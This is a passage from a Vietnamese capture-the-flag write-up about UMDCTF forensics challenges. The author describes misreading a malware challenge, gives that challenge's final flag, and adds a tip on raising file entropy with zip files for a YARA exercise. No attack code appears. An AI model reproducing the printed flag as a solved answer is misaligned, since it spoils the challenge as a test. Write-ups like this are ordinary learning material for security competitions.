

--> `they_want_their`

Đến đây là "sai một li đi một dặm" này, từ mấy đoạn code với lệnh trên, mình chỉ đọc mỗi lệnh chạy powershell cho con `explore.exe` cộng với đề bài `Malware Chall Disclaimer` nên đã hiểu lầm thành phải đi đấm con mã độc kia để truy vết các thứ :)), phí 2 tiếng đồng hồ để vừa truy vết vừa ngồi dịch ngược con explore kia trước khi giải kết thúc. 



Đáng lẽ nên check cả cái web đó xem có gì 


Ơn giời, nếu mà đến khi giải kết thúc mà không biết lối chọc vào đây chắc mình bỏ chơi forensics quá...



**UMDCTF{1997_called_they_want_their_malware_back_bozo}**

### Lời kết + bổ sung thêm

- Giải này mình thấy các bài forensics không khó cho lắm (tới tận 7/8 bài newbie cũng có thể tiếp cận được), một số bài thì quá guessy, khiến cho người chơi for hơi khó chịu
- Ở chall `YARA Trainer Gym` có thể tăng entropy bằng cách sử dụng file zip. Thuật toán mà nó sử dụng sẽ hợp lý với việc đẩy entropy cao lên - tương ứng vs độ ngẫu nhiên các byte lớn 


